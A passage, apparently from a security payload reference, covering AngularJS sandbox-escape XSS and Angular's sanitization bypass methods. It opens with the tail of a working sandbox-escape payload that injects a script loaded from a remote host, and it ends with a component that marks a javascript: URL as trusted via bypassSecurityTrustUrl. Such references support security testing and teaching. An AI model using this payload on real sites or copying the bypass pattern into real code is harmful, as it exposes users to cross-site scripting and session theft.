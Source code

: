 ```javascript
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      "astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};"
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
    m2 = B(C, null, m1);
    [].push.apply = m2;
    a = "".sub;
    $eval("a(b.c)");
    [].push.apply = a;
  }
}
```

## Automatic Sanitization

> To systematically block XSS bugs, Angular treats all values as untrusted by
> default. When a value is inserted into the DOM from a template, via property,
> attribute, style, class binding, or interpolation, Angular sanitizes and
> escapes untrusted values.

However, it is possible to mark a value as trusted and prevent the automatic
sanitization with these methods:

- bypassSecurityTrustHtml
- bypassSecurityTrustScript
- bypassSecurityTrustStyle
- bypassSecurityTrustUrl
- bypassSecurityTrustResourceUrl

Example of a component using the unsecure method `bypassSecurityTrustUrl`:

```
import { Component, OnInit } from '@angular/core';

@Component({
  selector: 'my-app',
  template: `
    <h4>An untrusted URL:</h4>
    <p><a class="e2e-dangerous-url" [href]="dangerousUrl">Click me</a></p>
    <h4>A trusted URL:</h4>
    <p><a class="e2e-trusted-url" [href]="trustedUrl">Click me</a></p>
  `,
})
export class App {
  constructor(private sanitizer: DomSanitizer) {
    this.dangerousUrl = 'javascript:alert("Hi there")';
    this.trustedUrl = sanitizer.bypassSecurityTrustUrl(this.dangerousUrl);
  }
}
```
